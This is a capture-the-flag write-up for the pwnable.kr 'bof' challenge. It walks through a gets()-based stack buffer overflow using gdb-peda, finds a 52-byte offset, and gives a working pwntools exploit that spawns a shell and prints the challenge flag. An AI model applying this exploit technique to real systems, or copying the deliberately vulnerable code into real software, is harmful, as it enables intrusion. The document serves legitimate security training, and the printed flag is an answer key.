 # pwnable.kr bof writeup (5 pt)

```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

So it gives us the vulnerable binary & the source code. Also the binary is running at `pwnable.kr 9000`.

Let's start!

# 0x01 Binary Enumeration

Let's download the files first.

```bash
[root@pwn4magic]:~/Desktop/bof# wget -q http://pwnable.kr/bin/bof
[root@pwn4magic]:~/Desktop/bof# wget -q http://pwnable.kr/bin/bof.c
[root@pwn4magic]:~/Desktop/bof# ls 
bof  bof.c
```

Cool, now let's enumerate the binary.

```bash
[root@pwn4magic]:~/Desktop/bof# file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

32bit binary cool, let's run the binary now & try to crash it.

```bash
[root@pwn4magic]:~/Desktop/bof# chmod +x bof
[root@pwn4magic]:~/Desktop/bof# ./bof
overflow me : 
1337
Nah..
[root@pwn4magic]:~/Desktop/bof# python -c 'print "A" * 100' | ./bof
overflow me : 
Nah..
*** stack smashing detected ***: <unknown> terminated
Aborted
```

Alright, now let's check the source code.

`bof.c`

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

So we have 2 functions, function `func` & function `main`. We need to focus on function `func`. 

We have a buffer there `char overflowme[32];` 32bytes and it tells us if `key == 0xcafebabe` will gives us shell.

Let's find the offset now.

# 0x02 Exploitation

Let's fire up PEDA!

```bash
[root@pwn4magic]:~/Desktop/bof# gdb -q bof
Reading symbols from bof...
(No debugging symbols found in bof)
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x00000474  _init
0x000004c0  gets@plt
0x000004d0  __stack_chk_fail@plt
0x000004e0  __cxa_finalize@plt
0x000004f0  puts@plt
0x00000500  system@plt
0x00000510  __gmon_start__@plt
0x00000520  __libc_start_main@plt
0x00000530  _start
0x00000570  __do_global_dtors_aux
0x000005f0  frame_dummy
0x00000627  __i686.get_pc_thunk.bx
0x0000062c  func
0x0000068a  main
0x000006b0  __libc_csu_init
0x00000720  __libc_csu_fini
0x00000730  __do_global_ctors_aux
0x00000768  _fini
gdb-peda$ 
```

We can see the functions there `func` & `main`. Let's disassemble func.

```assembly
gdb-peda$ disassemble func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:    call   0x56555645 <func+25>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0x56555650 <func+36>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:    call   0x56555665 <func+57>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:    call   0x56555673 <func+71>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0x56555684 <func+88>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
gdb-peda$ 
```

Let's set a breakpoint at `cmp` instruction. Then we will generate a 100bytes pattern.

```bash
gdb-peda$ break *0x56555654
Breakpoint 1 at 0x56555654
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ 
```

Now we will run the binary and input the 100bytes.

```bash
gdb-peda$ r
Starting program: /root/Desktop/bof/bof 
overflow me : 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
[----------------------------------registers-----------------------------------]
EAX: 0xffffd19c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0xf7fad5c0 --> 0xfbad2288 
EDX: 0xf7faf01c --> 0x0 
ESI: 0xf7fad000 --> 0x1d6d6c 
EDI: 0xf7fad000 --> 0x1d6d6c 
EBP: 0xffffd1c8 ("AFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
ESP: 0xffffd180 --> 0xffffd19c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x56555654 (<func+40>:     cmp    DWORD PTR [ebp+0x8],0xcafebabe)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
```

Let's display the memory contents of `ebp+0x8` at EIP register & find the offset.

```bash
gdb-peda$ x/s $ebp+0x8
0xffffd1d0:     "AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"
gdb-peda$ pattern offset AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL found at offset: 52
gdb-peda$ 
```

Perfect time to build our exploit.

`exploit.py PoC`

```python
#!/usr/bin/env python
from pwn import *

sock = remote('pwnable.kr', 9000)
payload = "A" * 52 + p32(0xcafebabe)
sock.sendline(payload)
sock.interactive()
```

Let's fire it up!

```bash
[root@pwn4magic]:~/Desktop/bof# chmod +x exploit.py 
[root@pwn4magic]:~/Desktop/bof# ./exploit.py 
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
$  
```

Flag : `daddy, I just pwned a buFFer :)`

-pwn4magic

